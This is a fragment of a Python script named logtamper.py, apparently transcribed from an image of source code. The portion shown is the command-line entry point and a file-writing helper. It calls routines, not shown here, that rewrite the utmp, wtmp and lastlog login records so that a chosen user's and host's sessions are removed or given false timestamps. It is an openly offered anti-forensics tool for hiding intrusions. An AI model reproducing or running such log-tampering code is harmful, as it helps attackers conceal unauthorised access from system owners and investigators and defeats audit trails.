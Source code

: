     def showMessage(msg):
    	print msg
    	exit(-1)
        
    def saveFile(filename, contents):
    	try:
    		fp = open(filename, 'w+b')
    		fp.write(contents)
    	except IOError as e:
    		showMessage(e)
    	finally:
    		fp.close()
            
    if __name__ == '__main__':
    	usage = 'usage: logtamper.py -m 2 -u b4dboy -i 192.168.0.188\n \
    		logtamper.py -m 3 -u b4dboy -i 192.168.0.188 -t tty1 -d 2015:05:28:10:11:12'
    	parser = OptionParser(usage=usage)
    	parser.add_option('-m', '--mode', dest='MODE', default='1' , help='1: utmp, 2: wtmp, 3: lastlog [default: 1]')
    	parser.add_option('-t', '--ttyname', dest='TTYNAME')
    	parser.add_option('-f', '--filename', dest='FILENAME')
    	parser.add_option('-u', '--username', dest='USERNAME')
    	parser.add_option('-i', '--hostname', dest='HOSTNAME')
    	parser.add_option('-d', '--dateline', dest='DATELINE')
    	(options, args) = parser.parse_args()
    	if len(args) < 3:
    		if options.MODE == '1':
		    	if options.USERNAME == None or options.HOSTNAME == None:
	    			showMessage('+[Warning]: Incorrect parameter.\n')
	    		if options.FILENAME == None:
	    			options.FILENAME = UTMPFILE
	    		# tamper
	    		newData = getXtmp(options.FILENAME, options.USERNAME, options.HOSTNAME)
	    		saveFile(options.FILENAME, newData)
	    	elif options.MODE == '2':
		    	if options.USERNAME == None or options.HOSTNAME == None:
	    			showMessage('+[Warning]: Incorrect parameter.\n')
	    		if options.FILENAME == None:
	    			options.FILENAME = WTMPFILE
	    		# tamper
	    		newData = getXtmp(options.FILENAME, options.USERNAME, options.HOSTNAME)
	    		saveFile(options.FILENAME, newData)
    		elif options.MODE == '3':
		    	if options.USERNAME == None or options.HOSTNAME == None or options.TTYNAME == None or options.DATELINE == None:
			    	showMessage('+[Warning]: Incorrect parameter.\n')
		    	if options.FILENAME == None:
			    	options.FILENAME = LASTLOGFILE
		    	# tamper
		    	modifyLast(options.FILENAME, options.USERNAME, options.HOSTNAME, options.TTYNAME , options.DATELINE)
		    else:
		    	parser.print_help()

